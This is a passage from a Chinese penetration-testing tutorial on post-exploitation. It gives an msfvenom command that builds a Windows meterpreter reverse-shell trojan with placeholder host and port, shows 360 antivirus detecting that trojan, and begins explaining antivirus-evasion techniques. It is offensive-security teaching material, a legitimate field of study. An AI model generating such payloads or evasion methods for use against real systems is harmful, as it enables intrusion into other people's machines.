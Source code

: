 ```yaml
---
layout: post
title:  "后渗透之免杀+提权to Passing the Hash"
categories: 后渗透
tags: 渗透测试 渗透 提权
author: 柠枫
---
```




* content
{:toc}








## 前言

完整攻击链大概包括信息搜集、漏洞利用、建立据点、权限提升、权限维持、横向移动、痕迹清除等七步，本次我们将注重探索建立据点以及权限提升，对于新手来说具有较好的参考性

### 免杀

环境为windows7+360 首先让我们来看看是怎么样的

![图片1.png](https://i.loli.net/2020/02/02/EruKs1Fqjkv67xV.png)

Msf.exe是原本未经过任何处理的木马， 使用msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXXX LPORT=XXXX -o msf.exe 让我们先看看他的查杀效果

![图片2.png](https://i.loli.net/2020/02/02/8nQiAwPgaZT2m34.png)

![图片3.png](https://i.loli.net/2020/02/02/Bug2TNOFZjIG8r7.png)

果然 360安全卫士十分不给面子的报毒了 而且这个360巨卡 把我的虚拟机都快卡崩了，为了后续的实验我们选择360杀毒 效果是一样的

![图片4.png](https://i.loli.net/2020/02/02/BWsmz8f1YEbdSkG.png)

选择自定义扫描去扫Desktop的msf.exe

![图片5.png](https://i.loli.net/2020/02/02/iw4zg9BoFernPK6.png)

毕竟我们没有做任何处理 扑街还是很正常的嘛，那我们现在上一波小免杀去和他对抗对抗。先大概说说免杀：

## 免杀概念

免杀，也就是反病毒（AntiVirus）与反间谍（AntiSpyware）的对立面，英文为Anti-AntiVirus（简写Virus AV），逐字翻译为“反-反病毒”，翻译为“反杀毒技术”

## 杀毒软件监测方式

### 扫描技术
